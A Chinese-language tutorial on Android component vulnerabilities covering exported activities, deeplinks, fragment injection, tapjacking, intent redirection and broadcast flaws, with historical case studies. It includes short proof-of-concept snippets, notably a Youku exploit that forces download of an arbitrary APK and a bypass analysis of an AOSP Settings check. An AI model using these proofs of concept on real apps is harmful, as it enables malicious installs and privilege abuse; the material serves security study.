

四大组件是安卓应用与外界沟通的桥梁，Android 的核心风险来自**进程间通信（IPC）与信任边界**判断失误。每个组件都可能被其他APP或者系统调用，当开发者默认对自己App内部可信的假设，套用到“来自App外部的调用”时，就容易出现逻辑漏洞
<!--more-->

**核心思路**

- 任何**进程外来**的数据（Intent、Bundle、Uri 参数、Cursor、剪贴板、通知 action 等）都“不可信”。
- 权限判断不能只放在**入口（Manifest）**，还要在**代码路径**中复核（尤其是多步业务、状态机/流程控制）。
- 对**调用方身份**要明确核验：UID、包名签名、是否本进程、是否系统进程、是否持有指定权限。


# 了解Manifest

`AndroidManifest.xml` 揭示了安卓应用的架构和各类组件信息，读懂Manifest也就对应用结构有大致的理解了。

下面以这个例子分段解读一下常见的一些标签字段

```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<manifest
  xmlns:android="http://schemas.android.com/apk/res/android"
  android:compileSdkVersion="32" android:compileSdkVersionCodename="12"
  package="com.example.myapp" platformBuildVersionCode="32"
  platformBuildVersionName="12">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
  	<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
    <application android:allowBackup="true" android:appComponentFactory="androidx.core.app.CoreComponentFactory"
      android:dataExtractionRules="@xml/data_extraction_rules" android:fullBackupContent="@xml/backup_rules"
      android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:name="com.example.myapp.Init"  
      android:networkSecurityConfig="@xml/network_security_config" android:requestLegacyExternalStorage="true"
      android:roundIcon="@mipmap/ic_launcher_round" android:supportsRtl="true" android:theme="@style/Theme.MyApp">
        <activity android:exported="true" android:name="com.example.myapp.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
            <meta-data android:name="android.app.lib_name" android:value=""/>
        </activity>
        <activity android:exported="true" android:name="com.example.myapp.MenuActivity">
            <meta-data android:name="android.app.lib_name" android:value=""/>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:host="myapp" android:scheme="app"/>
            </intent-filter>
        </activity>
        <provider android:name="com.example.myapp.MyProvider" android:authorities="com.provider"/>
        <provider android:authorities="com.example.myapp.androidx-startup" android:exported="false"
          android:name="androidx.startup.InitializationProvider">
            <meta-data android:name="androidx.emoji2.text.EmojiCompatInitializer" android:value="androidx.startup"/>
            <meta-data android:name="androidx.lifecycle.ProcessLifecycleInitializer" android:value="androidx.startup"/>
        </provider>
        <service
            android:name="com.example.myapp.MyService"
            android:exported="false"
            android:icon="@drawable/ic_launcher" >
        </service>
    </application>
</manifest>
```

- package="com.example.myapp"：应用包名（唯一标识）。
- compileSdkVersion="32"：应用是用 Android 12（API 32）编译的。
- platformBuildVersionCode / platformBuildVersionName：表示构建所基于的平台版本。

 

## Permissions节点

app运行的时需要获取用户的权限去执行一些业务，`uses-permission` 定义了它会需要何种权限。

```xml
<uses-permission android:name="android.permission.INTERNET"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```

上面表示应用运行时所需要的权限

| **权限**                    | **作用**                     | **风险**                                                     |
| --------------------------- | ---------------------------- | ------------------------------------------------------------ |
| INTERNET                    | 访问网络资源                 | 若与不安全服务器通信，可能泄露数据                           |
| READ/WRITE_EXTERNAL_STORAGE | 读写外部存储（SD卡）         | 可能暴露敏感文件或被恶意利用                                 |
| MANAGE_EXTERNAL_STORAGE     | 管理所有外部文件（极高权限） | Android 11+ 上被视为高危权限，需要特殊审核，不符合权限最小化原则 |

> 仅当 App 是**真正的文件管理/备份/杀毒**等确需场景才申请；同时对上架渠道（如 Google Play）要严格遵守政策并提供审查说明。测试中若发现申请该权限，要重点核查其行为是否**最小化**、是否存在多余的文件遍历/上传逻辑。

还有以下权限可以关注

| **Permissions**                                 | **Description**                                              |
| ----------------------------------------------- | ------------------------------------------------------------ |
| `READ_SMS, SEND_SMS, RECEIVE_SMS`               | 读、发送、接收SMS的权限                                      |
| `READ_CALL_LOG, WRITE_CALL_LOG`                 | 对通话记录的读写权限                                         |
| `READ_CONTACTS, WRITE_CONTACTS`                 | 联系人信息的读写                                             |
| `ACCESS_FINE_LOCATION, ACCESS_COARSE_LOCATION`  | 允许访问地理位置                                             |
| `READ_EXTERNAL_STORAGE, WRITE_EXTERNAL_STORAGE` | 允许应用访问和修改存储在外部存储上的文件。敏感信息可能会被暴露或更改，尤其是如果应用或用户未能妥善保护的话。 |
| `GET_ACCOUNTS`                                  | 允许应用查询设备上注册的账户列表。这些信息可能被滥用以针对特定账户或收集数据用于钓鱼攻击。 |
| `CAMERA`                                        | 访问相机的权限                                               |
| `RECORD_AUDIO`                                  | 授予该应用通过设备麦克风录制音频的权限。这可能会被利用来窃听后台对话。 |
| `INSTALL_PACKAGES, REQUEST_INSTALL_PACKAGES`    | 允许该应用通过系统安装程序触发软件包安装。如果被滥用，可能导致静默安装其他恶意软件。 |
| `SYSTEM_ALERT_WINDOW`                           | 启用应用程序在其它应用程序上方绘制覆盖层。这可以被利用来创建欺骗性用户界面元素，用于钓鱼或诱骗用户执行未预期的操作（例如，点击“允许”而不是“拒绝”）。 |


## Application节点

```xml
<application
  android:allowBackup="true" // 自动备份
  android:appComponentFactory="androidx.core.app.CoreComponentFactory"
  android:dataExtractionRules="@xml/data_extraction_rules" // 数据规则
  android:fullBackupContent="@xml/backup_rules" // 备份规则
  android:icon="@mipmap/ic_launcher"
  android:label="@string/app_name"
  android:name="com.example.myapp.Init"
  android:networkSecurityConfig="@xml/network_security_config"
  android:requestLegacyExternalStorage="true"
  android:roundIcon="@mipmap/ic_launcher_round"
  android:supportsRtl="true"
  android:theme="@style/Theme.MyApp">
```

| **属性**                              | **含义**              | **说明**                                                     |
| ------------------------------------- | --------------------- | ------------------------------------------------------------ |
| android:name="com.example.myapp.Init" | 自定义 Application 类 | 应用启动时第一个初始化的类，常用于注册全局配置或 SDK         |
| allowBackup="true"                    | 允许系统备份数据      | 若应用含敏感数据，应设为 false; adb backup/adb restore 备份恢复 |
| networkSecurityConfig                 | 指定网络安全配置      | 决定是否允许 HTTP、是否启用证书固定等                        |
| requestLegacyExternalStorage="true"   | 兼容旧版存储访问      | Android 10 后的过渡方案，存在数据泄露风险                    |

> - 背景：**Scoped Storage**（分区存储，Android 10 起）限制了 App 随意访问公共外部存储，强调按“媒体类型 + 用户选择器 + App 专区”访问。
>
> - 当 targetSdkVersion=29（Android 10）并设置 requestLegacyExternalStorage="true" 时：
>   - App 可以继续以**旧模式**访问外部存储（配合 READ/WRITE_EXTERNAL_STORAGE），**读写范围远大于 Scoped Storage**。
>   - 开发者**更容易把敏感数据写入公共目录**（如 Download/、自建根目录等），被其它 App 或 PC（MTP）、备份工具轻易读取。
>   - 还可能**复用 file:// Uri 共享文件**（而非 FileProvider 的 content://），导致：
>     - 其它 App（甚至浏览器）可在**无额外授权**的情况下读取；
>     - 经典“**目录遍历/开放目录**”类错误更易出现（拼路径、导出日志等）。
> - Android 11+ 虽然**不再尊重**此标志（对 targetSdkVersion>=30），但很多老项目或**兼容构建**仍会保留/回退到 29，从而**在大量设备上**继续暴露风险。

## Networking Security Configurations

`android:networkSecurityConfig="@xml/network_security_config"` 此属性指的是一个包含应用网络安全配置的文件，通常是在 `/res/xml/network_security_config.xml`

```xml
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
	<domain-config cleartextTrafficPermitted="false">
		<domain includeSubdomains="true">192.168.1.20</domain>
			<trust-anchors>
				<certificates src="@raw/certificate" />
			</trust-anchors>
		</domain-config>
	</network-security-config>
```


```xml
<network-security-config>
    <domain-config>
        <domain includeSubdomains="true">example.com</domain>
        <pin-set expiration="2030-12-31">
            <pin digest="SHA-256">7HIpactkIAq2Y49orFOOQKurWxmmSFZhBCoQYcRhJ3Y=</pin>
        </pin-set>
    </domain-config>
</network-security-config>
```

这里对目标域名使用了证书固定策略，进行防抓包

> 如果你的连接走的是 Android 平台的 TLS 栈（默认 HttpsURLConnection/OkHttp 在 Android 上都会用到它），并且 **API ≥ 24**，那么 network-security-config 里的 <pin-set> 就会被系统在握手时强制执行；**即使你没在 OkHttp 里配置 CertificatePinner，也同样会按清单里的 pin 校验失败/通过**。如果API <24就需要在业务代码中单独配置了

# Activity

## 导出/deeplink入口绕过业务前置条件

**场景**：某个中间页/敏感页 Activity 被 `android:exported="true"`或通过深链（`<intent-filter>+scheme/host/path`）暴露出来；页面逻辑本该只在“登录后、走了 A→B→C 页面流程”才可达，但实际任何外部 Intent 直达 C。

**风险**：越权访问、信息泄露、订单越权操作等。

### 隐式导出

导出的属性**可以被缺省**，默认值为false。如果 Activity 没有显式设置该属性，且该 Activity 中定义了 `<intent-filter>`，那么缺省值就默认为 `true`。在Android12之后，如果应用的 Activity 中包含 intent-filter，就必须要显式指定 `android:exported` 为 true 或者 false，不允许缺省。在 **Android 12** 中未显式指定 exported 属性且带有 intent-filter 的 Activity 的应用在安装时候会直接被 PackageManager 拒绝。

```xml
<activity xmlns:android="http://schemas.android.com/apk/res/android" android:theme="@android:01030055" android:name="com.evilpan.RouterActivity">
  <intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="demo" android:host="router"/>
  </intent-filter>
</activity>
```

### deeplink

[危险的deeplink](https://mp.weixin.qq.com/s/81Lq-JwASnkSS2wg62HSvA)

Android 深链接是一种特殊的 URL 链接，能够直接打开应用中的特定页面或功能，而不是只打开应用的主页面。比如点击一个链接就能打开购物应用的某个商品详情页，或者打开社交应用中的特定用户资料页。

**URI 形式**：深链接通常采用 `scheme://host/path` 的格式。例如：

- `myapp://product/123` - 打开商品 ID 为 123 的商品页面
- `myapp://user/john` - 打开用户 john 的资料页

**常见应用场景**

- **推送通知**：用户点击通知消息时直接跳转到相关内容
- **广告链接**：广告链接点击后直接进入对应的应用页面
- **网站跳转**：网页链接可以直接打开对应的原生应用
- **应用间通信**：不同应用之间可以通过深链接进行跳转

在Android中，主要通过`AndroidManifest.xml`中定义`<intent-filter>`实现。

```xml
<activity android:name=".ProductActivity">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        <data android:scheme="myapp" android:host="product" />
    </intent-filter>
</activity>
```

**调用方式**

1. 从浏览器
2. 从其他app中调用
3. 代码中主动调用
4. 接收端处理
5. 带参数的深链接

## Fragment注入

Fragment 是 Android 的 UI 组件单元（可把它看成“可复用的小 Activity”），通常由 Activity 承载，可以单独拥有生命周期（onCreate、onCreateView、onResume 等）。

**应用从不可信来源（Intent extras、deep link、外部 input）接收一个 Fragment 的类名/配置信息，并在运行时直接实例化并插入到自己的 UI 中**，如果该被实例化的 Fragment 含有敏感逻辑（如访问私有 API、执行文件操作、调用危险权限接口、加载本地库等），攻击者就能借此在受害应用的进程/权限上下文里执行任意代码——这就是 Fragment 注入。

> 这里[原文](https://evilpan.com/2022/11/13/android-bugs/#fragment-injection)讲得很好，因此直接copy了

**例- Android 4.0–4.3（API < 19）期间的一个漏洞**：

系统提供的`PreferenceActivity类`，开发者可以对其进行继承，实现方便的设置功能。该类的`onCreate`函数如下。

```java
protected void onCreate() {
    // ...
    String initialFragment = getIntent().getStringExtra(EXTRA_SHOW_FRAGMENT);
    Bundle initialArguments = getIntent().getBundleExtra(EXTRA_SHOW_FRAGMENT_ARGUMENTS);
    // ...
    if (initialFragment != null) {
        switchToHeader(initialFragment, initialArguments);
    }
}

private void switchToHeaderInner(String fragmentName, Bundle args) {
    getFragmentManager().popBackStack(BACK_STACK_PREFS,
            FragmentManager.POP_BACK_STACK_INCLUSIVE);
    if (!isValidFragment(fragmentName)) {
        throw new IllegalArgumentException("Invalid fragment for this activity: "
                + fragmentName);
    }

    Fragment f = Fragment.instantiate(this, fragmentName, args);
}
```

上述代码从`Intent`里获取了一个字符串和Bundle参数，并传入`switchToHeaderInner`中，用于实例化具体`Fragment`。实例化的

```java
public static Fragment instantiate(Context context, String fname, Bundle args) {
    // ...
    Class clazz = sClassMap.get(fname);
    if (clazz == null) {
            // Class not found in the cache, see if it's real, and try to add it
            clazz = context.getClassLoader().loadClass(fname);
            sClassMap.put(fname, clazz);
    }
    Fragment f = (Fragment)clazz.newInstance();
    if (args != null) {
            args.setClassLoader(f.getClass().getClassLoader());
            f.mArguments = args;
    }
    return f;
}
```

在实例化代码里，将传入的字符串实例化为Java类，并设置参数，其实就相当于反序列化。

常见的漏洞形式

```java
// VulnerableActivity.java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_vuln);

    String fragName = getIntent().getStringExtra("fragment"); // attacker-controlled
    if (fragName != null) {
        Fragment f = Fragment.instantiate(this, fragName, getIntent().getBundleExtra("args"));
        getSupportFragmentManager().beginTransaction()
            .replace(R.id.container, f).commit();
    }
}
```

Android 在 API 19（KitKat）引入 `isValidFragment()` 强制开发者显式校验允许的 Fragment；Google Play 也在后续要求开发者修复这类问题（新上架/更新会被阻止）。开发者应把 `PreferenceActivity` 的 `exported=false`（或实现 isValidFragment 做白名单）。

> 快速排查：搜索PreferenceActivity / Fragment.instantiate() / FragmentFactory 的用法


## 点击劫持

点击劫持又称tapjacking、UI overlay attack 或者 UI redress attack。恶意应用通过添加叠加层来遮盖界面的方式或通过其他方式诱骗用户点击与安全相关的控件（确认按钮等）点击劫持分为完全遮盖和部分遮盖。

### SYSTEM_ALERT_WINDOW

当恶意的app拥有浮窗权限（SYSTEM_ALERT_WINDOW）时，它被允许创建在所有应用上层显示的窗口，就造成了点击劫持。

Android中引入了几种缓解机制

- 在Android6（API23）以及更高级别版本中，用户必须明确向应用授予创建叠加窗口的权限。
- 在Android12（API31）以及更高版本中，应用可以将**true**传递到`Window.setHideOverlayWindows()`

### 自定义消息框

攻击者可以使用 `Toast.setView()` 自定义[消息框](https://developer.android.com/guide/topics/ui/notifiers/toasts?hl=zh-cn)的外观。在 Android 10（API 级别 29）及更低版本中，恶意应用可能会从后台启动此类消息框。

如果应用以 Android 11（API 级别 30）或更高版本为目标平台，系统会屏蔽后台自定义消息框。不过，在某些情况下，可以通过“消息框爆发”的手段规避这种缓解措施：攻击者趁应用位于前台时将多个消息框列入队列，这样一来，即使应用进入后台，这些消息框也会继续启动。

从 Android 12（API 级别 31）开始，后台消息框攻击和消息框爆发攻击已彻底得到缓解。

**完全遮盖**

·

在代码中设置`View.setFilterTouchesWhenObscured(true)`可以防止完全遮盖，这会屏蔽叠加层传递的触摸事件。

**部分遮盖**


 通过手动忽略带有 `FLAG_WINDOW_IS_PARTIALLY_OBSCURED` 标志的触摸事件，可以缓解部分遮盖问题。这种情景没有默认的保护机制。

点击劫持是关于恶意应用的攻击方式的，在本文主要讨论组件的漏洞，因此不多赘述，详细内容可以看看

[不可忽视的威胁：Android中的点击劫持攻击](https://mp.weixin.qq.com/s?__biz=MzUyNzc4Mzk3MQ==&mid=2247487493&idx=1&sn=c5be070f204b919747a0865156d7caf9&chksm=fa7b1149cd0c985ff69bbbfa4901e026c1db38c32219ba9b777f8a0b163b9b6e3ec9b181bd87&scene=178&cur_album_id=1420861949369303041#rd)

## Intent重定向

当攻击者可以控制应用中上下文启动新组件的intent内容时，就会出现intent重定向问题。可以通过多种方式提供用于启动新组件的 intent，最常见的方式是在 `extras` 字段中表示为`parcelable intent`，或者封送到字符串中并进行解析，启动APP中的任意Activity，即使是未导出的Activity。在这些Activity中，可能进一步解析了攻击者提供的`Intent`中的参数，去造成进一步的伤害，比如在WebView中执行任意JavaScript代码等。

Intent重定向可以应用于下面的这些接口

- [startActivity](https://developer.android.com/reference/android/app/Activity#startActivity(android.content.Intent))
- [startService](https://developer.android.com/reference/android/content/Context#startService(android.content.Intent))
- [sendBroadcast](https://developer.android.com/reference/android/content/Context#sendBroadcast(android.content.Intent))
- [setResult](https://developer.android.com/reference/android/app/Activity#setResult(int, android.content.Intent))

> `setResult`主要给当前Activity的调用者返回额外数据，主要用于`startActivityForResult`的场景。


1. 接受外部Intent中的Parcelable并直接start

```java
Intent inner = intent.getParcelableExtra("contentIntent");
if (inner != null) {
    context.startActivity(inner);
}
```

2. accept Uri/路径，并open via ContentResolver/FileProvider

```java
Uri u = intent.getParcelableExtra("uri");
ParcelFileDescriptor pfd = context.getContentResolver().openFileDescriptor(u, "r");
```

3. **将外部传入的 Intent 直接传给 PendingIntent 或 Notification**

```java
PendingIntent pi = PendingIntent.getActivity(ctx, 0, intent, 0);
notification.setContentIntent(pi);
```

4. **动态实例化/加载组件名来自外部（Fragment/Activity/Service）**

```java
String cls = getIntent().getStringExtra("class");
startActivity(new Intent().setClassName(this, cls));
```

5. **广播接收器读取 extra 中的 Intent/URI 并转发/打开**

```java
Intent i2 = intent.getParcelableExtra("contentIntentURI");
context.startActivity(i2);
```

### 案例：AOSP中的Intent Redirection漏洞

[原文](https://mp.weixin.qq.com/s/CY2nLUb2VQaBNxAKd7GeUQ)

在AOSP的`com.android.settings`中，存在这么一串代码。Google考虑到这里很可能出现Intent redirection，因此使用了`assertSafeToStartCustomActivity`进行安全检查。

```java
public void onReceive(Context context, Intent intent) {
            Bundle results = getResultExtras(true);
            final ArrayList<RestrictionEntry> restrictions = results.getParcelableArrayList(
                    Intent.EXTRA_RESTRICTIONS_LIST);
            Intent restrictionsIntent = results.getParcelable(CUSTOM_RESTRICTIONS_INTENT);
            if (restrictions != null && restrictionsIntent == null) {
                onRestrictionsReceived(preference, restrictions);
                if (mRestrictedProfile) {
                    mUserManager.setApplicationRestrictions(packageName,
                            RestrictionsManager.convertRestrictionsToBundle(restrictions), mUser);
                }
            } else if (restrictionsIntent != null) {
                preference.setRestrictions(restrictions);
                if (invokeIfCustom && AppRestrictionsFragment.this.isResumed()) {
                  // check
                    assertSafeToStartCustomActivity(restrictionsIntent);
                    int requestCode = generateCustomActivityRequestCode(
                            RestrictionsResultReceiver.this.preference);
                    AppRestrictionsFragment.this.startActivityForResult(
                            restrictionsIntent, requestCode);
                }
            }
        }

```

```java
        private void assertSafeToStartCustomActivity(Intent intent) {
            // 【1】Activity can be started if it belongs to the same app
            if (intent.getPackage() != null && intent.getPackage().equals(packageName)) {
                return;
            }
            //【2】 Activity can be started if intent resolves to multiple activities
            List<ResolveInfo> resolveInfos = AppRestrictionsFragment.this.mPackageManager
                    .queryIntentActivities(intent, 0 /* no flags */);
            if (resolveInfos.size() != 1) {
                return;
            }
            // 【3】Prevent potential privilege escalation
            ActivityInfo activityInfo = resolveInfos.get(0).activityInfo;
            if (!packageName.equals(activityInfo.packageName)) {
                throw new SecurityException("Application " + packageName
                        + " is not allowed to start activity " + intent);
            }
        }
    }
```

这里的检查函数存在几个绕过的场景。

第一处的逻辑是，假如intent的package和PoC相同，说明是打开PoC自己的Activity，那就可以通过检查。简单看上去同样没问题，然而Intent有个非常特殊的地方，**即Component和Package是两个互不相关的变量** 

```java
private String mPackage;
private ComponentName mComponent;
```

而在resolve一个Intent时，Component的优先级是最高的，当它被设置时，mPackage会被直接忽略。

函数只检查` intent.getPackage()`，但没有检查 `intent.getComponent() `或 `intent.getClass()`。如果调用者传入了一个**显式**的 `ComponentName（intent.setComponent(new ComponentName("com.victim","..."))）`，`queryIntentActivities() `很可能返回 0（因为隐式解析不适用），代码 `resolveInfos.size() != 1` 成立 => return（允许）。然后实际的 `startActivity(intent) `会直接启动显式指定的组件（哪怕是别的包里的 Activity）。

在【2】处，攻击者可以通过让解析结果变成 size != 1 来获得白名单：

- **制造多结果**：在设备上安装另一个恶意 app 并声明相同的 `intent-filter`，使得` queryIntentActivities() `返回多个 `ResolveInfo`（攻击者控制的 app + 受害 app），从而触发` size != 1 `→ 允许启动。
- **造成 0 结果**：设置显式 Component（如上）或使用某些组合，使得 queryIntentActivities 不返回解析项，代码也允许。

这个函数中，也没有检查Intent的内容是否存在恶意行为。


# Service

Service(服务)是一个一种可以在后台执行长时间运行操作而没有用户界面的应用组件。服务可由其他应用组件启动（如Activity），服务一旦被启动将在后台一直运行，即使启动服务的组件（Activity）已销毁也不受影响。 此外，组件可以绑定到服务，以与之进行交互，甚至是执行进程间通信 (IPC)。


Service分为两种分为两种

- StartService

  - 隐式启动

    ```java
    // Action启动
    Intent intent = new Intent();//Intent intent = new Intent("活动")
    intent.setAction("XXX");//service中定义的action
    intent.setPackage(getPackageName);需要设置的应用包名
    startService(intent);
    
    // 包名启动
    Intent intent = new·Intent();
    ComponentName componentName = New ComponentName(getPackageName(),"com.example.testservices.TestService");
    intent.setComponent(componentName);
    startService(intent);
    ```

  - 显式启动

    ```java
    Intent intent = new Intent(this,TestService.class);
    startService(intent);
    ```

- BindService

  - bindService() 是把客户端（Activity/Service/其他 Context）与目标 Service 建立**客户端-服务器（client-server）连接**的机制：客户端会得到一个 IBinder（本进程通常是 Binder 对象，跨进程通常是 AIDL/Stubs/Messenger），通过它调用服务暴露的 API；当所有客户端都 unbind 后，服务若未被 startService() 启动，就会销毁。

  - 同进程（本地）绑定 —— LocalBinder

    ```java
    // 服务端
    public class LocalService extends Service {
        private final IBinder mBinder = new LocalBinder();
    
        public class LocalBinder extends Binder {
            LocalService getService() { return LocalService.this; }
        }
    
        @Override
        public IBinder onBind(Intent intent) {
            return mBinder; // 客户端会在 onServiceConnected 拿到它并调用 getService()
        }
    
        public int doWork() { return 42; }
    }
    
    // 客户端(Activity)
    private LocalService mService;
    private boolean mBound = false;
    private ServiceConnection mConn = new ServiceConnection() {
        @Override public void onServiceConnected(ComponentName name, IBinder binder) {
            LocalService.LocalBinder lb = (LocalService.LocalBinder) binder;
            mService = lb.getService();
            mBound = true;
            // 现在可以调用 mService.doWork()
        }
        @Override public void onServiceDisconnected(ComponentName name) {
            mBound = false;
        }
    };
    
    @Override protected void onStart() {
        super.onStart();
        Intent intent = new Intent(this, LocalService.class);
        bindService(intent, mConn, Context.BIND_AUTO_CREATE);
    }
    
    @Override protected void onStop() {
        super.onStop();
        if (mBound) {
            unbindService(mConn);
            mBound = false;
        }
    }
    ```

  - 跨进程绑定（IPC）—— AIDL/Messenger

## 不当的导出与权限控制导致越权、消息伪造

和 Activity 一样，Service 也要在 manifest 中使用 [service](https://developer.android.com/guide/topics/manifest/service-element) 去声明，也有 `android:exported` 属性。甚至关于该属性的默认值定义也是一样的，即默认是 `false`，但包含 intent-filter 时，默认就是 `true`。同样，在 Android 12 及以后也强制性要求必须显式指定服务的导出属性。

### 案例：优酷Android4.5 客户端升级漏洞

组件com.youku.service.push.StartActivityService声明如下，组件对外暴露

```xml
<service
    android:label="Youku Push Notifications StartActivityService"
    android:name="com.youku.service.push.StartActivityService"
    android:exported="true"
>
```

部分代码如下

```java
protected void onHandleIntent(Intent intent) {
        Intent v0;
        String v23;
        Serializable pushMsg = intent.getSerializableExtra("PushMsg");
        ......
        AppVersionManager.getInstance(Youku.context).showAppAgreementDialog();
        switch(pushMsg.type) {
            case 1: {
                goto label_53;
            }
            ......
        }
        ......
    label_53:
        intent.setFlags(876609536);
        intent.setClass(this, UpdateActivity.class);
        intent.putExtra("updateurl", pushMsg.updateurl);
        intent.putExtra("updateversion", pushMsg.updateversion);
        intent.putExtra("updatecontent", pushMsg.updatecontent);
        intent.putExtra("updateType", 2);
        this.startActivity(intent);
        return;
    ......
```

该组件从Intent从获取名为PushMsg的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。这一过程未对下载地址进行判断，因此可以指定任意地址。

poc

```java
PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://gdown.baidu.com/data/wisegame/41839d1d510870f4/jiecaojingxuan_51.apk";
pushMsg.updatecontent = "This is Fake";
		
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);
```

运行后，优酷会拉起升级提醒，并下载恶意的apk，使用户安装


## Service劫持

**Service 劫持（Service Hijacking）** 是指攻击者通过伪造、篡改或重定向 Android 应用中的 Service 组件（或系统服务），使受害应用在运行时**绑定或启动了攻击者控制的 Service**，从而窃取数据、执行恶意操作或提权。

### 常见形式

#### 隐式Intent被匹配

隐式启动services,当存在同名services,先安装应用的services优先级高。那么系统可能会匹配到攻击者注册了相同 action 的恶意 Service。这样可以截获到本应发往目标服务的 Intent，如果带有敏感信息的话还会造成数据泄露。

在 Android 5.0 （API-21）开始，使用隐式 Intent 去调用 bindService 会直接抛出异常。


## 拒绝服务

[乌云：雪球客户端空指针引用](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-048028)


# BroadcastReceiver

简称`receiver`，即广播接收器。广播承担了一对多的通信功能。Android系统本身就会在发生各种事件的时候发送广播通知所有感兴趣的应用，比如开启飞行模式、网络状态变化、电量不足等等。这是一种典型的发布/订阅的设计模式，广播数据的载体也同样是 `Intent`。

`receiver`可以在Manifest中声明注册（静态注册），也可以在app运行过程中动态注册。任何广播接收器都要实现`onReceive(context, intent)`方法。

```bash
adb shell am broadcast {--user uid | all | current} {INTENT} 
```

## exported属性

- android:exported="true"：表示可以接收 **外部应用发来的广播**。
- android:exported="false"：仅能接收 **本应用内部发送的广播**。

静态注册：在Manifest中注册，同样也面临着隐式导出的问题，因此查看`exported="true"`或找到`intent-filter`即可。下面是动态注册的情况。

```java
BroadcastReceiver receiver = new MyReceiver();
IntentFilter filter = new IntentFilter();
filter.addAction(Intent.ACTION_BATTERY_CHANGED);
registerReceiver(receiver, filter);
```

https://developer.android.com/reference/androidx/core/content/ContextCompat#registerReceiver(android.content.Context,android.content.BroadcastReceiver,android.content.IntentFilter,int)

```java
public static @Nullable Intent registerReceiver(
    @NonNull Context context,
    @Nullable BroadcastReceiver receiver,
    @NonNull IntentFilter filter,
    int flags
)
```

这个接口的最后一位是flags，使用[RECEIVER_EXPORTED](https://developer.android.com/reference/androidx/core/content/ContextCompat#RECEIVER_EXPORTED()) 和[RECEIVER_NOT_EXPORTED](https://developer.android.com/reference/androidx/core/content/ContextCompat#RECEIVER_NOT_EXPORTED()) 表示是否导出。

在**API34**以及之后，如果receiver是用于监听non-system broadcast，那么flag如果为空，或者没有正确设置，则会报错`SecurityException`，开发者需要明确指定导出属性。

而如果**targetSdk** <= 34，则省略flags是被允许的，并且默认为**exported**



## 导出Receiver被任意触发

一个导出的Receiver可能接收任意应用的广播，对应的业务逻辑可以被无权限触发，造成危害。

### 案例：MIUI内置手电筒软件漏洞

[小米MIUI漏洞导致硬件资源消耗](https://wooyun.x10sec.org/static/bugs/wooyun-2012-09175.html)

MIUI内置的手电筒软件STK.apk中，TorchService服务没有对广播来源进行验证，导致任何程序可以调用这个服务，打开或者关闭手电筒，利用这个漏洞可以迅速消耗电量。

```java
Intent intent = new Intent();
intent.setAction("net.cactii.flash2.TOGGLE_FLASHLIGHT");
sendBroadcast(intent);
```

这里就是通过intent隐私传递，发送广播，然后匹配小米应用中的action，这样就可以打开或广播手电筒，从而利用这个漏洞，导致系统电源迅速消耗


## 信息泄露

发送的intent没有明确指定接收者，而是简单的通过action进行匹配，恶意应用便可以注册一个广播接收者嗅探拦截到这个广播，如果这个广播存在敏感数据，就被恶意应用窃取了。

### 案例：CVE-2018-9581

https://wwws.nightwatchcybersecurity.com/2018/11/11/cve-2018-9581/

系统在广播 android.net.wifi.RSSI_CHANGED 时携带了敏感数据 RSSI，此广播能被所有应用接收，从而间接导致物理位置信息泄露。


## Intent重定向

### 案例：TickTok

漏洞出在 Tiktok 的 `NotificationBroadcastReceiver` 中，定义了 intent-filter 导致组件默认被设置为导出，因此可以接收到外部应用的广播，而且又将广播中的不可信数据直接拿来启动 Activity。

`com.ss.android.ugc.awemepushlib.os.receiver.NotificationBroadcastReceiver` 这个类存在隐式导出，并且直接将不受信任的Intent去开启新的Activity。与此同时，应用中还存在一个 FileProvider 权限授予过宽：`<root-path name="name" path="" />`，意味着 FileProvider 可被用来访问应用私有文件。因而攻击者用该广播接收器启动带有读写 URI 权限的 Intent，从而访问敏感文件。


## DoS

### 案例：CVE-2018-14988: Denial of Service in MXQ TV Box

